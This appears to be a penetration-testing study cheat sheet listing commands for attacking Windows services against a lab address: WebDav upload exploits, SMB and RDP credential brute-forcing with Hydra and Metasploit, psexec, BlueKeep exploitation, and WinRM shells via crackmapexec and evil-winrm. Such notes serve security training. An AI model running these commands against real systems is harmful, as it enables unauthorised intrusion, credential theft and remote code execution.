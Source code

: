 

<h2>Exploiting Microsoft IIS WebDav</h2>
Typically configured to run on port 80/443

supported executable file extensions
1. .asp
2. .aspx
3. .config
4. .php

WebDav(Web-Based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allows users to collaboratively edit and manage files on remote web servers

***Tools***
1. davtest - used to scan, authenticate and exploit a webdav server. Comes preinstalled on kali
2. cadaver - this supports file upload, download on screen display. comes preinstalled on kali

commands
To upload to webdav using cadaver
```
cadaver http://10.10.10.10/webdav
```
To use metasploit to exploit webdav
```
use exploit/windows/iis/iis_webdav_upload_asp
set HttpUsername
set HttpPassword
set RHOSTS
set PATH /webdav/metasploit%RAND%.asp
```
wordlist to use when bruteforcing for username and password for services
```
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
using metasploit to bruteforce for smb
```
use auxiliary/scanner/smb/smb_login
set verbose false
set stop_on_success false
set RHOSTS
set USER_FILE
set PASS_FILE
```
Exploiting smb with psexec
```
// a password is needed
psexec.py username@10.10.10.10 cmd.exe 
```
Exploiting smb with  psexec for metasploit
```
use exploit/windows/smb/psexec
set RHOSTS
set SMBuser
set SMBPass
```

>cve for eternal blue is cve-2017-0144


<h3> Exploiting RDP</h3>
RDP(Remote Desktop Protocol), used to remotely connect and interact with a windows system. Runs on port 3389 but can also be configured to run on any other tcp port

Using metasploit to scan rdp
```
use auxiliary/scanner/rdp/rdp_scanner 
set RPORT (to the port you are unsure of that is running rdp)
```
bruteforcing for rdp creds
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.10.10.10:3333 -t 16
```
To connect to rdp
```
xfreerdp /u:administrator /p:qwertyuiop /v:10.10.10.10:3333
```



<h3>Exploiting windows CVE-2019-0708 RDP Vulnerability(BlueKeep)</h3>

Microsoft this vulnerability in May 2019. The attacker gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication

Using metasploit to exploit it, this is to check if it is vulnerable
```
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
SET RHOSTS 
run
```
Using metasploit to exploit
```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS
show targets
set target 
```


<h3>Exploiting WinRm</h3>

WinRm(Windows Remote Management) this can be used to facilitate remote access with windows systems or HTTP(s). This uses TCP port 5985 and 5986(HTTPS)

>crackmapexec can be used to perform brute-force on WinRm in order to identify users and their passwords as well as execute commands on the target system

>A ruby script called "evil-winrm" can be utilized to obtain a command shell session on the target system

Using crackmapexec (username is mostly administrator)
```
crackmapexec winrm 10.10.10.10 -u username -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
using crackmapexec to run arbitrary commands
```
crackmapexec winrm 10.10.10.10 -u usermane -p password -x 
```

To get a reverse shell, we'll be using evil-winrm which is a ruby script
```
evil-winrm.rb -u username -p 'password' -i 10.10.10.10
```
Using Metasploit
```
use exploit/windows/winrm/winrm_script_exec
set RHOSTS
set FORCE_VBS true
set username
set password
```


